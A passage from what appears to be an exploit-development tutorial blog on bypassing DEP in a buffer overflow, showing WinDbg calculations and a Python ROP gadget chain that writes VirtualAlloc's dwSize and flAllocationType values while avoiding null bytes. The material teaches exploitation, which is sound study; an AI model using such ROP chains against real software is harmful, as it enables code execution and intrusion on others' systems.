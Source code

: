 We increase 4 bytes in ECX, POP -1 in EAX, NEG EAX to become 1, and then write it on ECX.

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP/2.gif)

# flAllocationType - 00001000

Now, let's patch the flAllocationType, which must be 1000.

Same thing. We'll use EAX and then NEG it, because it contains null bytes. But now we'll put another step. We cannot use 1000 because even -1000 contain null bytes, so we will use -1001 and then negate and decrease 1 to become 1000.

```
0:000> ?0x0 - 0x1001
Evaluate expression: -4097 = ffffefff
0:000> ?0x0 - 0x1000
Evaluate expression: -4096 = fffff000
```

```
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x61b6122a,  # pop eax; ret;
0xffffefff,  # -0x1001
0x699ef43a,  # neg eax; ret;
0x68a84305,  # dec eax; ret;
0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;
```

```py
...
##############
# -> dwSize (0x48484848)
##############
## Increase 4 bytes in ECX
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
## PUT -0x00000001 in EAX
0x61b6122a,  # pop eax; ret;
0xffffffff,  # -0x00000001
## NEG EAX, to become 1
0x699ef43a,  # neg eax; ret;
## Write on 0x48484848 (ECX)
0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;

##############
# -> flAllocationType (0x49494949)
##############
## Increase 4 bytes in ECX
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
## PUT -0x1001 in EAX
0x61b6122a,  # pop eax; ret;
0xffffefff,  # -0x1001
## NEG EAX, to become 1001
0x699ef43a,  # neg eax; ret;
## DEC EAX, to become 1000
0x68a84305,  # dec eax; ret;
## Write on 0x49494949 (ECX)
```
